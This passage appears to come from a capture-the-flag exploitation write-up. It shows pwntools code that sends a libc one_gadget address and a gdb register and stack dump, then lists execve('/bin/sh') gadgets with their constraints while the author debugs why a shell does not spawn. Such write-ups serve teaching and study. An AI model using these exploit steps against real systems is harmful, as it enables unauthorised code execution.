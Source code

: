 ## Triage
We'll modify the code a little bit to stop at the one_gadget:
```python
oneg = context.libc.select_gadget(1)
gdb.attach(r, gdbscript='b *'+hex(oneg)+'\nc')
r.sendafter('Any last message?:', pack(oneg))
```
`gdb` is enlightening:
```c
$rax   : 0x00007f98a3e18ce6  →  <execvpe+1142> mov rsi, r10
$rbx   : 0x00007f98a3f273a0  →  0x8d4c5741fa1e0ff3
$rcx   : 0x00007f98a3e42fb2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x2f
$rsp   : 0x00007ffe510e5638  →  0x00007f98a3f27376  →  0x4d8b4800000000b8
$rbp   : 0x00007ffe510e5660  →  0x0000000000000000
$rsi   : 0x00007f98a3f27376  →  0x4d8b4800000000b8
$rdi   : 0x00007f98a3f20b28  →  0x00007f98a3e18ce6  →  <execvpe+1142> mov rsi, r10
$rip   : 0x00007f98a3e18ce6  →  <execvpe+1142> mov rsi, r10
$r8    : 0x00007f98a3f20b28  →  0x00007f98a3e18ce6  →  <execvpe+1142> mov rsi, r10
$r9    : 0x00007f98a3d39548  →  0x0000000000000000
$r10   : 0x00007f98a3f1dbe0  →  0x0000555555ab55a0  →  0x0000000000000000
$r11   : 0x246
$r12   : 0x00007f98a3f27150  →  0x8949ed31fa1e0ff3
$r13   : 0x00007ffe510e5748  →  0x000000000000001c
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
 stack 
0x00007ffe510e5638│+0x0000: 0x00007f98a3f27376  →  0x4d8b4800000000b8    ← $rsp
0x00007ffe510e5640│+0x0008: 0x00007f98a3f25530  →  0x0000555555ab52a0  →  0x0000000000000000
0x00007ffe510e5648│+0x0010: 0x0000555555ab52a0  →  0x0000000000000000
0x00007ffe510e5650│+0x0018: 0x00007f98a3f20b28  →  0x00007f98a3e18ce6  →  <execvpe+1142> mov rsi, r10
0x00007ffe510e5658│+0x0020: 0x0caf9f8a935f0f00
0x00007ffe510e5660│+0x0028: 0x0000000000000000   ← $rbp
0x00007ffe510e5668│+0x0030: 0x00007f98a3d590b3  →  <__libc_start_main+243> mov edi, eax
0x00007ffe510e5670│+0x0038: 0x0000000000000000
 code:x86:64 
   0x7f98a3e18cd8 <execvpe+1128>   add    DWORD PTR [rbp+0x52], esi
   0x7f98a3e18cdb <execvpe+1131>   mov    QWORD PTR [r10+0x10], 0x0
   0x7f98a3e18ce3 <execvpe+1139>   mov    rdx, r12
 → 0x7f98a3e18ce6 <execvpe+1142>   mov    rsi, r10
   0x7f98a3e18ce9 <execvpe+1145>   lea    rdi, [rip+0xd08ba]        # 0x7f98a3ee95aa
   0x7f98a3e18cf0 <execvpe+1152>   mov    QWORD PTR [rbp-0x78], r11
   0x7f98a3e18cf4 <execvpe+1156>   call   0x7f98a3e18160 <execve>
   0x7f98a3e18cf9 <execvpe+1161>   mov    r11, QWORD PTR [rbp-0x78]
   0x7f98a3e18cfd <execvpe+1165>   mov    eax, DWORD PTR fs:[r14]
 threads 
[#0] Id 1, Name: "ld-linux-x86-64", stopped 0x7f98a3e18ce6 in execvpe (), reason: BREAKPOINT
```
The one_gadget requirements here probably failed. These are the three<sup>4</sup> gadgets available:
```python
0xe6ce3 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

0xe6ce6 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
```